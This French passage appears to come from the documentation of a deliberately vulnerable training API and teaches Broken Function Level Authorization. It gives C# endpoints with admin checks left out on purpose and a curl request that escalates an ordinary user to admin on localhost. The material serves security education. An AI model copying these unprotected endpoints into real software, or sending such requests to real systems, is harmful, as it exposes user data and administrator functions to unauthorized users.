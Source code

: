 **Problème** : N'importe quel utilisateur authentifié peut supprimer d'autres utilisateurs.

### Exemple 2 : Élévation de privilèges non protégée

```csharp
[HttpPost("elevate/{id}")]
public async Task<IActionResult> ElevateUserRole(int id, [FromBody] string newRole)
{
    // VULNÉRABLE: Pas de vérification d'autorisation admin
    var user = await _context.Users.FindAsync(id);
    if (user == null) return NotFound();
    
    user.Role = newRole;
    await _context.SaveChangesAsync();
    
    return Ok(new { elevated = id, role = newRole });
}
```

**Problème** : Permet à n'importe qui de changer les rôles, y compris le sien.

### Exemple 3 : Export de données sensibles

```csharp
[HttpGet("admin/export-users")]
public async Task<IActionResult> ExportUsers()
{
    // VULNÉRABLE: Fonction admin accessible à tous
    var users = await _context.Users.ToListAsync();
    var csv = "Id,Email,Role\n" + string.Join("\n", users.Select(u => $"{u.Id},{u.Email},{u.Role}"));
    var bytes = System.Text.Encoding.UTF8.GetBytes(csv);
    
    return File(bytes, "text/csv", "users.csv");
}
```

### Exemple 4 : Modification de configuration globale

```csharp
[HttpPost("admin/set-config")]
public IActionResult SetConfig([FromBody] ConfigModel model)
{
    // VULNÉRABLE: Permet de modifier la configuration globale
    // Pas de vérification du rôle admin
    
    return Ok(new { updated = true, config = model });
}
```

## 💥 Scénarios d'exploitation

### Scénario 1 : Auto-élévation de privilèges
```bash
# Un utilisateur normal s'attribue le rôle admin
curl -X POST http://localhost:5000/api/bfla/elevate/123 \
    -H "Authorization: Bearer [USER_TOKEN]" \
    -H "Content-Type: application/json" \
    -d '"Admin"'

# Maintenant il peut utiliser toutes les fonctions admin
```
